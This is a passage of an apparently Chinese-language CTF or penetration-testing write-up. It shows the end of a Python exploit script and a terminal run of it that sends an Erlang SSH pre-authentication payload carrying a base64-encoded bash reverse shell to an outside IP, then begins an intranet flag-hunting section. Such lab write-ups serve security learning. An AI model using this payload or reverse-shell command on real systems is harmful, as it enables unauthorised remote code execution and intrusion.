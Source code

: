```python
                print("[*] No response within timeout period (which is expected)")

    except Exception as e:
        print(f"[!] Error: {e}")


if __name__ == "__main__":
    main()
```

```bash
┌──(pd)─(kali㉿kali)-[~/ls]
└─$ proxychains4 python3 1.py -t 10.117.116.188 -p 2222 -c '/bin/bash -i &>/dev/tcp/ip/1112 <&1'

[*] Connecting to SSH server...
[+] Received banner: 
[*] Sending SSH_MSG_KEXINIT...
[*] Sending SSH_MSG_CHANNEL_OPEN...
[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[*] Erlang payload: os:cmd(binary_to_list(base64:decode("L2Jpbi9iYXNoIC1pICY+L2Rldi90Y3AvMTExLjExOS4yMzguMjA2LzExMTIgPCYx"))).
[✓] Exploit sent! Command executed on target
[+] Received response: 

```



## 一条龙“服务”渗透
```text
1. 内网存在多台机器，不一定每台都存在flag。
2. Windows统一：C:\Users\Administrator\Desktop\flag
3. Linux统一：/root/flag
```

### 第一层（Linux）
![](assets/img/attachments/QQ_1754565623002.png)  

